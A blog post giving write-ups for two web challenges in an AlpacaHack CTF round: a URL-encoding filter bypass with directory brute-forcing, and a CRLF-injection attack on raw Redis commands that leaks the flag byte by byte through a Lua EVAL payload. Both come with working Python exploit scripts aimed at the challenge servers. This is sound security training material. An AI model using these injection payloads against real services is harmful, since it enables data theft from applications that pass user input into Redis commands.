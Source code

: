 ```yaml
---
weight: 1
title: AlpacaHack CTF 2024 Web Writeups
date: 2024-11-30T13:32:12+03:00
draft: false
author: Jonathan Levy
authorLink: https://jonathann403.github.io
description: Writeups for WEB challenges in AlpacaHack (7th round) CTF 2024.
tags:
  - web
  - xss
  - redis
  - bruteforce
lightgallery: true
toc:
  enable: true
lastmod: 2024-11-30T13:32:12+03:00
---
```

## Introduction

While searching for a CTF to participate in this weekend with my team (FF2), I stumbled upon one by accident—and it turned out to be a great find! Hosted by a group from Tokyo, AlpacaHack is a CTF platform that organizes monthly CTF competitions (rounds), each focusing on a different theme. This time, it was web security!

## "Treasure Hunt" (116 pts, 71 solves)

![image](https://github.com/jonathann403/jonathann403.github.io/blob/main/content/posts/alpacahack-round-7/Pasted%20image%2020241130131728.png?raw=true)

Inside the challenge's files we have the server code files along with some random files containing emojis
![image](https://github.com/jonathann403/jonathann403.github.io/blob/main/content/posts/alpacahack-round-7/Pasted%20image%2020241130131955.png?raw=true)

in the `Dockerfile`, we can see this weird flag storing method:
![image](https://github.com/jonathann403/jonathann403.github.io/blob/main/content/posts/alpacahack-round-7/Pasted%20image%2020241130132149.png?raw=true)

![image](https://github.com/jonathann403/jonathann403.github.io/blob/main/content/posts/alpacahack-round-7/Pasted%20image%2020241130132640.png?raw=true)
after pasting it to terminal, we can see that flag's path is `./public/3/8/7/6/9/1/7/c/b/d/1/b/3/d/b/1/2/e/3/9/5/8/7/c/6/6/a/c/2/8/9/1/f/l/a/g/./t/x/t`  (a-f, 1-9)
while `public` means that we can GET to this file.

In `index.js` , at `GET /` the server returns this html that contains the files under the `./public` directory.

![image](https://github.com/jonathann403/jonathann403.github.io/blob/main/content/posts/alpacahack-round-7/Pasted%20image%2020241130133026.png?raw=true)
The server also returns `400` if the url contains `f,l,a,g` .
I've managed to bypass this check by passing the letters as url encoded:
![image](https://github.com/jonathann403/jonathann403.github.io/blob/main/content/posts/alpacahack-round-7/Pasted%20image%2020241130133401.png?raw=true)
![image](https://github.com/jonathann403/jonathann403.github.io/blob/main/content/posts/alpacahack-round-7/Pasted%20image%2020241130133527.png?raw=true)

now we need to get into the flag's directory and get the flag.
To do that, I need a way to find if any directory exist on the server, and I can do that by sending a request to the a directory (without `/`), for example: `GET /hello`,
If this directory exist server automatically redirects me to `/hello/`.

Let's see how I can automate it with python to get the flag.

```python
import httpx

url = "http://34.170.146.252:19843"
chars = "0123456789abcdeflagtxt"
flag = ""

with httpx.Client(base_url=url) as client:
    while True:
        for c in chars:
            path = flag + "/" + f"%{ord(c):02X}"
            response = client.get(path)

            if response.status_code == 301:
                flag = path
                print(flag)
                break
            elif response.status_code == 200:
                print(response.text)
                exit()
```

I've tried to make it with `requests` but it keeps redirecting me so I had to do it with httpx...
![image](https://github.com/jonathann403/jonathann403.github.io/blob/main/content/posts/alpacahack-round-7/Pasted%20image%2020241130135946.png?raw=true)

## "Alpaca Poll" (146 pts, 42 solves)

![image](https://github.com/jonathann403/jonathann403.github.io/blob/main/content/posts/alpacahack-round-7/Pasted%20image%2020241130140118.png?raw=true)

![image](https://github.com/jonathann403/jonathann403.github.io/blob/main/content/posts/alpacahack-round-7/Pasted%20image%2020241130140230.png?raw=true)

This challenge suppose to be a poll site... let's look at the source code:
![image](https://github.com/jonathann403/jonathann403.github.io/blob/main/content/posts/alpacahack-round-7/Pasted%20image%2020241130140349.png?raw=true)

we can see that this one uses `redis`, let's see how he manages to speak with the server.


![image](https://github.com/jonathann403/jonathann403.github.io/blob/main/content/posts/alpacahack-round-7/Pasted%20image%2020241130140529.png?raw=true)
![image](https://github.com/jonathann403/jonathann403.github.io/blob/main/content/posts/alpacahack-round-7/Pasted%20image%2020241130140630.png?raw=true)

by taking a look on these functions (and comments lol), we can understand that we have to find an injection in here.
![image](https://github.com/jonathann403/jonathann403.github.io/blob/main/content/posts/alpacahack-round-7/Pasted%20image%2020241130141024.png?raw=true)
also, in the init function, we can see that the flag is in a `redis key` named `flag`.

I'll deploy this challenge locally because of this function that prints the input/output of the redis:
![image](https://github.com/jonathann403/jonathann403.github.io/blob/main/content/posts/alpacahack-round-7/Pasted%20image%2020241130140921.png?raw=true)

Let's now focus on the `POST /vote`:

The `replace()` only replaces the first appearance of the provided char... that means we can bypass this check and have a command injection.

```js
const message = `INCR ${animal}\r\n`;
```
so for injection, we need to get message to be:
```js
const message = `INCR dog\r\nGET flag\r\n`;
```

and to make it happen, we need `animal`'s value to be: `\r\ndog\r\nGET flag`

explanation:
the first `\r\n` are deleted because of the replace() function, and the rest is not moving anywhare.

and after url encoding:

`animal=%0D%0Adog%0D%0AGET%20flag`

in the server, it looks like that (redis command injected successfully):
![image](https://github.com/jonathann403/jonathann403.github.io/blob/main/content/posts/alpacahack-round-7/Pasted%20image%2020241130141921.png?raw=true)

Now we need to of a creative way to make the client see the value of the flag!

![image](https://github.com/jonathann403/jonathann403.github.io/blob/main/content/posts/alpacahack-round-7/Pasted%20image%2020241130142329.png?raw=true)
![image](https://github.com/jonathann403/jonathann403.github.io/blob/main/content/posts/alpacahack-round-7/Pasted%20image%2020241130142339.png?raw=true)
as you can see, every value that is being returned, is getting inside the `parseInt()` function.
that means we can't return a string of the flag, BUT, we CAN return the ascii value of each letter in the flag, and get it inside a string key like dog, and send a request to `\getVotes` to get a dictionary of the results!

After some research, we can do it using the `EVAL` cmd in `redis` that executes a `lua` script that gives more features to the command.

```lua
`EVAL "redis.call('SET', 'dog', string.byte(redis.call('GET', 'flag'), 1))" 0`
```

this will set dog's value to be flag's value at specific index of this string!

Now I can automate it with python:

```python
import requests
import json
import time

index = 1

vote_url = "http://localhost:3000/vote"
get_votes_url = "http://localhost:3000/votes"
flag = ""

while True:

	animal_value = f"\r\ndog\r\nEVAL \"redis.call('SET', 'dog', string.byte(redis.call('GET', 'flag'), {index}))\" 0"
	res = requests.post(vote_url, data={"animal": animal_value})
	print(res.text)
	res2 = requests.get(get_votes_url)
	flag += chr(json.loads(res2.text)["dog"])
	index += 1
	if chr(json.loads(res2.text)["dog"]) == '}': break

print(flag)	
```


this does the job :)

Now, instead of localhost, let's put our instance: 
```python
vote_url = "http://34.170.146.252:32483/vote"
get_votes_url = "http://34.170.146.252:32483/votes"
```
![image](https://github.com/jonathann403/jonathann403.github.io/blob/main/content/posts/alpacahack-round-7/Pasted%20image%2020241130145312.png?raw=true)

YAY!